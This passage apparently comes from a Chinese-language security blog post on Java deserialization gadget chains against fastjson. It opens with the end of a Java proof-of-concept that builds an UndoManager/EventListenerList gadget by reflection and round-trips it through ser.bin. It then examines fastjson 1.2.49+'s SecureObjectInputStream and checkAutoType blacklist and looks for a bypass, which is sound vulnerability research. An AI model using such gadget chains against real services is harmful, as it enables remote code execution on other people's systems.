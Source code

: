 ```java
        Field edit = CompoundEdit.class.getDeclaredField("edits");
        edit.setAccessible(true);
        edit.set(undoManager,vector);

        listenerList.set(eventListenerList,new Object[]{HashMap.class,undoManager});
        serialize(eventListenerList);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```



## fastjson >= 1.2.49

从 1.2.49开始，JSONArray和JSONObject添加了自己的readObject方法，在该

* 调用 SecureObjectInputStream.ensureFields() 确保安全字段初始化。
* 检查 SecureObjectInputStream.fields 是否非空且无错误，若满足条件，则创建 SecureObjectInputStream 并调用其 defaultReadObject 方法。
* 若上述条件不满足，直接调用传入的 ObjectInputStream 的 defaultReadObject 方法。
* 遍历 map 中的所有键值对，检查键和值的类型是否符合 ParserConfig.global.checkAutoType 的要求。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250406171520453.png)

看到SecureObjectInputStream.resolveClass，如果getClassFromMapping（也就是从mappings中能取出待反序列化类）为空，则调用checkAutoType

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250406171729452.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250406171940012.png)

跟进到checkAutoType，这个函数我们是相当熟悉了，把TemplatesImpl列入了黑名单

目前看来，正常反序列化进入到SecureObjectInputStream.resolveClass就会被ban掉，有没有手法能绕过呢？

看到`java.io.ObjectInputStream#readObject0`，会根据Bytes中tc的数据类型不同恢复部分对象
